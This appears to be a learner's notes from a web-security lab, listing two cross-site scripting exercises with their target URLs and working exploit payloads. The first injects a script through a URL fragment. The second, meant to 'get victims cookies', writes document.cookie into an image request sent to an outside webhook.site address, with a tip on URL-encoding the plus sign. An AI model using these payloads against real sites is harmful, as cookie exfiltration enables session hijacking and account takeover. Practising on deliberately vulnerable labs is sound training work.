 ### 09
chl:
`<script>alert('e6cb11a5-8d77-412b-9cfc-d99fc6bbe509')</script>`

url:
http://ptl-bf67ed09-7529df2e.libcurl.st/index.php#hacker

exploit:
- `http://ptl-bf67ed09-7529df2e.libcurl.st/index.php#<script>alert('e6cb11a5-8d77-412b-9cfc-d99fc6bbe509')</script>`

notes:

### 10
chl:
- get victims cookies

url:
http://ptl-6cc11f10-31b70d53.libcurl.st/index.php?name=hacker

exploit:
- `<script>document.write('<img src="[URL]?c='+document.cookie+'" />');</script>`
- `<script>document.write('<img src="http://webhook.site/786438e6-5ffa-4d5b-a03b-2e0234e95e3c?c='+document.cookie+'" />');</script>`

notes:
- Make sure you don't forget to encode the + in the URL (%2b).
